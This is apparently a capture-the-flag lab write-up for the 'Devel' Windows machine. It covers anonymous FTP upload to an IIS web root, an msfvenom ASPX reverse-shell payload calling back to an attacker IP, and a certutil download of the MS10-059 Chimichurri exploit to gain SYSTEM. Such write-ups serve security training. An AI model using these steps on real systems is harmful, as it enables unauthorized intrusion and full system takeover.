


# Devel

In this room we are going to attempt to get root in the **Devel** machine which its theme is Windows Privilege Escalation! 

Let's begin.

### Port Enumeration

Let's first start with a simple port enumeration command:

```
nmap <ip> -A -T4 -p-
```

> PORT   STATE SERVICE VERSION
> 21/tcp open  ftp     Microsoft ftpd
> | ftp-syst: 
> |_  SYST: Windows_NT
> | ftp-anon: Anonymous FTP login allowed (FTP code 230)
> | 03-18-17  02:06AM       <DIR>          aspnet_client
> | 03-17-17  05:37PM                  689 iisstart.htm
> |_03-17-17  05:37PM               184946 welcome.png
> 80/tcp open  http    Microsoft IIS httpd 7.5
> |_http-title: IIS7
> |_http-server-header: Microsoft-IIS/7.5
> | http-methods: 
> |_  Potentially risky methods: TRACE
> Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

From the output above we can see that the server is hosting a website on port 80 with HTTP and a FTP server which we can login anonymously.

I ran gobuster on the website since it showcased a default IIS server page and since no interesting results came back I decided to move to the FTP port.

### FTP Anonymous Login

After logging in anonymously on the FTP server I was able to see that the files that were available to the user were the ones that were being used by the web server, hence we had access to the directory where the web server is being hosted on. 

Hence, since no interesting files were hosted there I decided to try and write a file to this folder and try to access it on the web server.

```
echo "Hello World" > test.txt
ftp 10.10.10.5
put test.txt
curl http://10.10.10.5/text.txt
```



Great! If we are able to do this maybe we can upload a payload to get a reverse shell. After a quick search online I was able to undertand that IIS server can run aspx payloads. Hence we can create a payload using msfvenom:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.11 LPORT=4444 -f aspx > r_shell.aspx
```

If we perform the same steps as above we are able to obtain a shell on the target as a low privileged user.

### Privilege Escalation

In order to escalate privileges we can do this using a kernel exploit.

But what is the system vulnerable to?

We have two methods to do this, the first I'm going to explain but not perform.

#### Metasploit

Using **multi/recon/local_exploit_suggester** we can enumerate a couple of exploits the machine is vulnerable to. 

What you should do next is research these exploits and use a module available for one of them to get SYSTEM on the machine. It is quite simple.

#### Manual

We are going to use Windows Exploit Suggester to enumerate a couple of exploits the target is vulnerable to.

In order to do this we are going run the commands below, but first you should grab a copy of the `syteminfo` output command on the target Windows machine since we are going to need this information to use the tool above.

```
python2.7 windows-exploit-suggester.py --update
python2.7 windows-exploit-suggester.py --database 2023-06-15-mssb.xls --systeminfo systeminfo.txt
```

> Note: For people having trouble running this tool I was able to do it by installing pip2.7. Afterwards I simply installed the version of xrld which is able to parse xls files. Use the commands below
>
> `wget https://bootstrap.pypa.io/pip/2.7/get-pip.py`
> `sudo python2.7 get-pip.py`
> `pip2.7 install --user xlrd==1.1.0`



Great! Let's research one of the vulnerabilities, such as MS10-059. https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri

This Github repository says that what we should do is run the executable provided with the IP and Port of our machine (setup a local listener) and we should get SYSTEM privileges on this shell.

```
python -m http.server 80
cd /Windows/Temp
certutil -urlcache -f http://10.10.16.11/Chimichurri.exe ms10.exe
ms10.exe 10.10.16.11 5555
```


Great! We did it!
